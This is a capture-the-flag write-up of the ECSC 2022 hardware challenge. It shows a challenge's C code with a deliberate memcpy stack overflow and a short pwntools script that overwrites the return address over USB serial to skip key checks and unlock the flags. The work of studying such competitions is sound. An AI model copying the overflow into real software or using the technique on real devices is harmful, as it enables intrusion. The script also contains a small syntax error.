

# ECSC2022 hardware challenge  

<p align="center">
    At the 1st day we was playing *Jeopardy* what had *Escape the Box* and *HW hacking*.<br>
    The organizers told us to don't remove the epoxy and we can't use any cable only a Type-C USB.<br>
    Every team got 2 boards so I was cooperating with one of my teammate.  
</p><br>

<p align="center">
  
</p>

# Recon  
We connected the board to our laptops via USB type-c and *udiskie* showed up a message "New Device Mounted" so we checked what's on the mountable partition.  
There was 4 files, these are `CHALL_1.C`, `CHALL_3.C`, `CHALL_4.C` and `README.txt`.  
The `README.txt` was a description for the challenge, here's it's content:
```
=== To all survivors ===

If you're reading this, it means that we have succeeded against all odds in preserving mankind's most important knowledge for those who come after us.
Unfortunately, it also means that as we expected society as we know it has collapsed. We've had it a long time coming, I'm afraid.

The four Knowledge Vault modules attached to this device contain some critical blueprints that are needed to revive a global civilisation. To keep this information out of the hands of malicious parties, vault contents are protected from access by security measures running on a separate TPM chip.

We hope with all might that you succeed in unlocking all vaults, and give mankind a second chance to thrive.

You can connect to the main interface via serial over USB using baudrate 115200.
```  
This description gave us some useful information like the required *baudrate* and the [RP2040](https://www.raspberrypi.com/products/rp2040/) don't store any critical data instead it communicate with a TPM chip and a flash chip which is another rp2040.  

## What's a TPM chip?  
A [TPM](https://en.wikipedia.org/wiki/Trusted_Platform_Module) chip is a secure cryptoprocessor, responsible to store cryptographic keys.  
Just to place it somewhere this is the chip what you must have in your PC if you want to upgrade to Windows 11, because without this Windows can't increase the security against ransomware attacks.  
A useful information is that the TPM chip communicate with the CPU in plain text. Thus we can do a *man-in-the-middle* attack and read the data between the CPU and the TMP chip, for example with jumper cables placed in the serial bus pins.

# Take a look at the board  
There's many thing on the circuity board, could be confusing for the first time. For us only 3 things are important, The RP2040 and the 2 **things** with epoxy on it. We knew that The RP2040 what we can see is the main chip, we communicate with it via USB. The big one with epoxy on it could be the flash chip, this RP2040 communicate with the main chip but not with us. At last the small epoxied chip must be the TPM, this communicate with the main chip in plain text.  

# Choose a challenge
If we open the serial with `picocom` like `picocom /dev/ttyACM0` a menu shows up with 4 challanges and a `[Print Flag]` options. Me and my teamate chose challange 4, because that looked the easiest.  
Content of `CHALL_4.C` what we donwloaded:  
```c
void unlock(int key) {
    uart_printf("Unlock function located at 0x%p\r\n", unlock);

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }
    char flag[48] = {0};

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }

    //[..]

    if(key != 42) { uart_printf("Wrong key\r\n"); return; }
    uart_printf("Unlocked vault: %s\r\n", flag);
}

void chall4_handler(char *input, int len) {
    char cmd[8];
    memcpy(cmd, input, len);

    if (strnstr(cmd, "VERSION", 8) != 0) {
        version();
        return;
    } else if (strnstr(cmd, "REGS", 8) != 0) {
        regs();
        return;
    } else if (strnstr(cmd, "CLOCK", 8) != 0) {
        clock();
        return;
    } else if (strnstr(cmd, "UNLOCK", 8) != 0) {
        unlock(0);
        return;
    } else if (strnstr(cmd, "HELP", 8) != 0) {
        help_chall4();
        return;
    } else {
        uart_printf("Unknown command\r\n");
    }
    return;
}
```  
For example if we type `REGS` it shows the addresses of the registers, this could be useful but for our solution this isn't necessarry. It also gives the memory address of the `regs()` function, so we know where is the start point of the function.  
Same thing for the unlock function, it gives the starting address of the `unlock()` function but fails bacause we give it **0** instead of **42**.  
Every function shows the memory address of itself.  
```c
 unlock 0x1000030D
  clock 0x100004FD
   regs 0x10000549
version 0x100004C9
```  

# Solving the challange  
We did a very strange to find out the currect memory address, called *manual brute force*.  
We found out that if we connect to the board with serial we can simply write data to the TX with python.  

We opend the serial, went down in the menu till challange 4 and then run the following script.  
```python
#!/bin/env python3
from pwn import *

payload = b"A"*6 + p32(0x10000549)

f = open ("/dev/ttyACM0", "wb")
f.write(b"UNLOCK" + payload + b"\n"
```  
This script send the **UNLOCK** keyword to the board via serial, but before press enter it also send 6pcs **A** character, this cause a *BoF* and a payload where the code jumps before crash. This part was the longest because every time we executed our code had to reset the board because the BoF cause a crash. In this example before the crash the code jumps to the entry point of `regs()` function, means our script works.  

We knew the start address of the `unlock()` function so we was trying to jump after the 3rd if statement. After this we increaded the memory address by 8 bits until we reach the vault unlock part.  
Once we triggered the correct memory address it gave back a string like `Unlocked vault: 5`. Then we went back to the main menu and opened the `[Print Flags]` function and it showed us all 4 flags.  

> Unfortunately we didn't noted the correct memory address because we was in hurry.  
